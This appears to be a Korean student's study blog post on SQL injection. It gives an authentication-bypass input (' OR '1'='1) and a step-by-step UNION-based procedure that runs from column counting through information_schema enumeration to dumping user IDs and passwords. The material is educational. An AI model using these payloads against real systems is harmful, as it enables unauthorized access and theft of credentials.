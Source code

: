 ```yaml
---
title: "Week 6 - Union Injection"
date: 2025-05-17
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# 1. SQL Injection: 인증 우회 및 데이터 추출

SQL Injection은 웹 애플리케이션에서 사용자 입력값이 안전하게 처리되지 않을 때 발생하는 취약점입니다. 이 포스트에서는 인증 우회를 포함한 SQL Injection을 통해 **데이터를 추출하는 절차**를 정리합니다.

## 1.1 SQL Injection의 목적

보통 SQL Injection은 다음 두 가지 목적으로 활용됩니다:

- **인증 우회**: 로그인 등의 인증 시스템을 무력화
- **데이터 추출**: 데이터베이스에 저장된 민감한 정보를 외부로 노출

---

# 2. 인증 우회 예시

로그인 로직이 다음과 같이 구현되어 있다고 가정합니다:

```sql
SELECT * FROM user WHERE id = 'doldol' AND pass = '';
```
이때 다음과 같은 입력을 하면 항상 참이 되어 인증이 우회됩니다:
```
' OR '1'='1
```
최종 쿼리:
```
SELECT * FROM user WHERE id = 'doldol' AND pass = '' OR '1'='1';
```
# 3. 데이터 추출이 가능한 조건
데이터를 추출하기 위해선 다음 두 조건 중 하나를 만족해야 합니다:

조건	예시
웹페이지에 데이터가 출력된다	게시판, 검색결과 등
웹페이지에 데이터가 출력되지 않는다	로그인, 아이디 중복체크 등

이번 포스트에선 화면에 데이터가 출력되는 경우를 중심으로 설명합니다.

# 4. UNION을 이용한 SQL Injection
UNION 키워드를 이용하면 두 개 이상의 SELECT 결과를 합쳐서 출력할 수 있습니다.

예시:
```
SELECT pass FROM member UNION SELECT id FROM member;
또는:
```
SELECT id, pass FROM member UNION SELECT 'normaltic', 'test';
```
❗ 주의: UNION을 사용할 때는 앞뒤 SELECT문의 컬럼 개수가 같아야 합니다.

# 5. SQL Injection 단계별 분석

# 5.1 1단계. Injection 포인트 확인
사용자 입력값이 SQL 쿼리에 반영되고 있는지 확인

페이지 출력 결과를 통해 추측

# 5.1 2단계. 컬럼 개수 찾기

' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #
...
오류가 발생하지 않는 최대 인덱스를 통해 컬럼 수 추정 (예: 4개)

# 5.1 3단계. 출력 컬럼 위치 찾기

' UNION SELECT 1,2,3,4 #
어느 숫자가 실제 웹페이지에 출력되는지 확인

출력되는 위치에 민감 정보 삽입 가능

4단계. 현재 DB 이름 확인

' UNION SELECT 1, database(), 3, 4 #
5단계. 테이블 이름 확인

' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'DB이름' #
6단계. 컬럼 이름 확인

' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = '테이블이름' #
7단계. 데이터 추출

' UNION SELECT 1, id, pass, 4 FROM member #
